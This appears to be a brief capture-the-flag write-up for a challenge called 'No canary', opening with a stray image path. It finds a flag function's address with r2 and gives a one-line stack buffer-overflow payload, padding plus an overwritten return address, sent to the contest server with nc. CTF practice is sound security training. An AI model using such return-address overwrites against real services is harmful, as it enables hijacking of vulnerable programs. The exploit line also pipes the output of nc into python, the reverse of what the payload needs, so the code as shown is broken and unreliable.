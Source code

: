 # No canary

Use r2 to find address of flag function, `0x00401186`  
Find buffer length needed.

```text
nc shell.actf.co 20700 | python -c 'print("A"*40+"\x86\x11\x40\x00\x00\x00\x00\x00")'
```

